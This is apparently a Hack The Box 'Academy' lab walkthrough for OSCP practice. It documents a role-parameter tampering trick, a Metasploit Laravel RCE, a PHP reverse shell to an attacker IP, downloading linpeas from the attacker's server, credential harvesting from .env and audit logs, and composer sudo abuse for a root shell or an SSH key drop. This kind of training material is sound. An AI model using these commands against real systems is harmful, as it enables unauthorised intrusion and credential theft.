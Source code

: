 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
---

## 🌐 Network Scanning

```bash
nmap -p- -T4 -A 10.10.10.215
```

Edit `/etc/hosts`:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb
```

---

## 📁 Enumeration

### [HTTP](HTTP.md) (Port 80)

```bash
gobuster dir --url http://academy.htb/ -w /usr/share/wordlists/dirb/common.txt
```

- Discovered: `admin.php`
- Registered an account on the site
- Intercepted POST with Burp Suite and modified:

```http
POST /register
...
roleid=1
```

Access:

```http
http://academy.htb/admin.php
```

From the admin panel, discovered subdomain:

```bash
vi /etc/hosts
# Add:
10.10.10.215 academy.htb dev-staging-01.academy.htb
```

---

## 💥 Exploitation

### Laravel RCE (CVE-2018–15133)

Check Laravel version hint from `.env` at `dev-staging-01.academy.htb`:

```bash
# Manually visit:
http://dev-staging-01.academy.htb
```

Run Metasploit:

```bash
msfconsole
search laravel

use exploit/unix/http/laravel_token_unserialize_exec
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set RHOSTS 10.10.10.215
set VHOST dev-staging-01.academy.htb
set LHOST <your-tun0-IP>
run
```

Spawn TTY shell:

```bash
/usr/bin/php -r '$sock=fsockopen("10.10.16.9",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## 🧑‍💻 User: `cry0l1t3`

### Find .env file & Password

```bash
find / -type f -name .env 2>/dev/null
cat /var/www/html/academy/.env
# or
cat /var/www/html/htb-academy-dev-01/.env
```

Discovered credentials:

```plaintext
mySup3rP4s5w0rd!!
```

Login as `cry0l1t3` via SSH:

```bash
ssh cry0l1t3@10.10.10.215
id
cat user.txt
```

---

## 🧑 User: `mrb3n`

### Enumerate with linPEAS

On Kali:

```bash
cd ~/Downloads
python3 -m http.server 8000
```

On target:

```bash
cd /tmp
wget http://10.10.16.9:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Find credentials manually:

```bash
cd /var/log/audit
cat * | grep 'comm="su"'
# Extract the HEX from `data=` and decode to ASCII
```

Switch to user:

```bash
su mrb3n
# Password: mrb3n_Ac@d3my!
```

---

## 👑 Privilege Escalation to Root

### Sudo Check

```bash
sudo -l
```

Output:

```
(mrb3n) NOPASSWD: /usr/bin/composer
```

### GTFOBins: Composer to Root

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Alternative (SSH Key Drop):

```bash
TF=$(mktemp -d)
echo '{"scripts":{"ssh":"echo 'ssh-ed25519 AAAA...yourkey... user@host' >> /root/.ssh/authorized_keys"}}' > $TF/composer.json
sudo composer --working-dir=$TF run-script ssh

# Then from Kali:
ssh -i ~/.ssh/id_rsa root@10.10.10.215
```

### Read Root Flag

```bash
cd /root
cat root.txt
```

---

## ✅ Summary

| Stage            | User         | Method                                             |
|------------------|--------------|----------------------------------------------------|
| Foothold         | `www-data`   | Laravel RCE + admin role bypass                    |
| User             | `cry0l1t3`   | `.env` file password reuse                         |
| Lateral Movement | `mrb3n`      | Audit log credential leak (linPEAS or manual grep) |
| Root             | `root`       | Composer abuse (GTFOBins)                          |
